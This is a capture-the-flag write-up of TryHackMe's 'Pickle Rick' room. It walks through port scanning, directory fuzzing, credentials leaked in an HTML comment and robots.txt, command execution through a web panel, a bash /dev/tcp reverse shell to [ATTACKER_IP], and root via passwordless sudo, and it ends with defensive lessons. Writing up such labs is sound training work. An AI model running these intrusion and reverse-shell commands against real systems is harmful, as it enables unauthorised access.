


# 🥒 Pickle Rick — TryHackMe Write-Up

> **Room:** [Pickle Rick](https://tryhackme.com/room/picklerick)
> **Difficulty:** Easy
> **Category:** Web Exploitation / Linux Privilege Escalation
> **Author:** subzer030

---

## 📋 Table of Contents

1. [Introduction](#introduction)
2. [Reconnaissance](#reconnaissance)
   - [Ping](#ping)
   - [Port Scanning](#port-scanning)
   - [Web Enumeration](#web-enumeration)
   - [Directory Fuzzing](#directory-fuzzing)
3. [Gaining Access](#gaining-access)
   - [Login](#login)
   - [Remote Code Execution](#remote-code-execution)
   - [Reverse Shell](#reverse-shell)
4. [Privilege Escalation & Flags](#privilege-escalation--flags)
   - [Ingredient 1](#ingredient-1-www-data)
   - [Ingredient 2](#ingredient-2-rick)
   - [Ingredient 3](#ingredient-3-root)
5. [Summary](#summary)

---

## Introduction

This is a Rick and Morty-themed challenge hosted on TryHackMe. The goal is to exploit a web server running at **[IP]** and recover **three secret ingredients** to help Rick brew a potion that turns him back from a pickle into a human.

We need to find:
- Ingredient 1 — accessible as `www-data`
- Ingredient 2 — in Rick's home directory
- Ingredient 3 — in the root directory

---

## Reconnaissance

### Ping

Before anything else, I verify the machine is up and reachable:

```bash
ping -c 5 [IP]
```

```
PING [IP] ([IP]) 56(84) bytes of data.
64 bytes from [IP]: icmp_seq=1 ttl=62 time=138 ms
64 bytes from [IP]: icmp_seq=2 ttl=62 time=148 ms
64 bytes from [IP]: icmp_seq=3 ttl=62 time=136 ms
64 bytes from [IP]: icmp_seq=4 ttl=62 time=147 ms
64 bytes from [IP]: icmp_seq=5 ttl=62 time=145 ms

--- [IP] ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4005ms
rtt min/avg/max/mdev = 136.445/142.784/147.743/4.682 ms
```

✅ Machine is alive. TTL of 62 suggests a Linux host (typically 64 with 2 hops).

---

### Port Scanning

I use **RustScan** to quickly discover open ports, then hand off to Nmap for service/version detection:

```bash
rustscan -a [IP] -- -sC -sV
```

**Results:**

| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | Open | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 |
| 80/tcp | Open | HTTP | Apache httpd 2.4.41 (Ubuntu) |

Key observations:
- **Port 22 (SSH):** OpenSSH 8.2p1 — potentially usable if we find credentials.
- **Port 80 (HTTP):** Apache web server with the page title `Rick is sup4r cool` — this is our primary attack surface.

---

### Web Enumeration

Browsing to `http://[IP]/`, we see the main page of Rick's website.

#### 🔍 Page Source — Hidden Username

Using **Ctrl+U** (View Source) on the main page reveals an HTML comment left by a careless Rick:

```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```



> **Username found:** `R1ckRul3s`

#### 🤖 robots.txt

Navigating to `http://[IP]/robots.txt`:

```
W**************b
```

> This looks like a password. I'll keep it for the login page.

---

### Directory Fuzzing

I run **Feroxbuster** with common wordlists and multiple extensions to discover hidden paths:

```bash
feroxbuster -u http://[IP]/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt,html,bak \
  -s 200,301,403,401 \
  -t 50
```

**Interesting results:**

| URL | Status | Note |
|-----|--------|------|
| `http://[IP]/login.php` | 200 | Login page |
| `http://[IP]/robots.txt` | 200 | Contains a string (potential password) |
| `http://[IP]/index.html` | 200 | Main page |
| `http://[IP]/assets/` | 301 | Static assets directory |

The most interesting finding is `login.php` — a login form that we can now attack with the credentials we've gathered.

---

## Gaining Access

### Login

Navigating to `http://[IP]/login.php`, we find a login form. Using the credentials found during reconnaissance:

- **Username:** `R1ckRul3s`
- **Password:** `W**************b` *(from robots.txt)*

✅ **Login successful!**

---

### Remote Code Execution

After logging in, we're redirected to `http://[IP]/portal.php`, which presents a **Command Panel** — a web interface that lets us execute system commands directly on the server.



This is essentially an unauthenticated Remote Code Execution (RCE) panel behind a login wall. We can confirm code execution by running:

```bash
whoami
```

Output: `www-data`

We're running as the Apache web server user. Let's escalate this into a proper reverse shell.

---

### Reverse Shell

#### Setting up the listener

On the attacker machine:

```bash
nc -lnvp 6666
```

#### Triggering the reverse shell

In the Command Panel, I submit the following payload:

```bash
bash -c "bash -i >& /dev/tcp/[ATTACKER_IP]/6666 0>&1"
```

#### Connection received

```
Listening on 0.0.0.0 6666
Connection received on [IP] 49054
bash: cannot set terminal process group (1020): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-[IP]:/var/www/html$
```

✅ **Reverse shell established as `www-data`.**

#### Upgrading the shell (TTY stabilization)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
```

We now have a fully interactive TTY shell.

---

## Privilege Escalation & Flags

### Ingredient 1 — `www-data`

Still in `/var/www/html`, I check the directory:

```bash
ls -la
```

There's a file named `Sup3rS3cretPickl3Ingred.txt`:

```bash
www-data@ip-[IP]:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
```

```
mr. m******* hair
```

> 🧪 **Ingredient 1:** `mr. m******* hair`

There's also a `clue.txt`:

```bash
www-data@ip-[IP]:/var/www/html$ cat clue.txt
```

```
Look around the file system for the other ingredient.
```

---

### Ingredient 2 — Rick

Following the clue, I enumerate home directories:

```bash
ls /home/
```

Output: `rick`

```bash
ls /home/rick/
```

Output: `second ingredients`

```bash
www-data@ip-[IP]:/home/rick$ cat 'second ingredients'
```

```
1 j**** tear
```

> 🧪 **Ingredient 2:** `1 j**** tear`

---

### Ingredient 3 — Root

Checking sudo privileges for `www-data`:

```bash
sudo -l
```

Output reveals that `www-data` can run **all commands as root without a password** — a massive misconfiguration:

```
(ALL) NOPASSWD: ALL
```

This gives us a trivial path to root:

```bash
www-data@ip-[IP]:/$ sudo cat /root/3rd.txt
```

```
3rd ingredients: f**** juice
```

> 🧪 **Ingredient 3:** `f**** juice`

---

## Summary

| Step | Finding |
|------|---------|
| HTML source comment | Username: `R1ckRul3s` |
| `robots.txt` | Password for login |
| Directory fuzzing | Discovered `login.php` and `portal.php` |
| Command Panel (RCE) | Direct OS command execution as `www-data` |
| Reverse shell | Full shell access |
| `/var/www/html/Sup3rS3cretPickl3Ingred.txt` | Ingredient 1 |
| `/home/rick/second ingredients` | Ingredient 2 |
| `sudo -l` → NOPASSWD: ALL → `/root/3rd.txt` | Ingredient 3 |

### 🔑 Key Takeaways

1. **Never leave credentials in HTML comments or robots.txt.** These are publicly accessible files.
2. **Command injection panels should never be exposed**, even behind authentication — one compromised account is all it takes.
3. **`sudo NOPASSWD: ALL` for a web server user is catastrophic.** A compromised `www-data` account immediately becomes root access.
4. Always enumerate source code, `robots.txt`, and hidden directories during recon — easy wins are often left in plain sight.

---

*Write-up by SubZer030 | TryHackMe: Pickle Rick*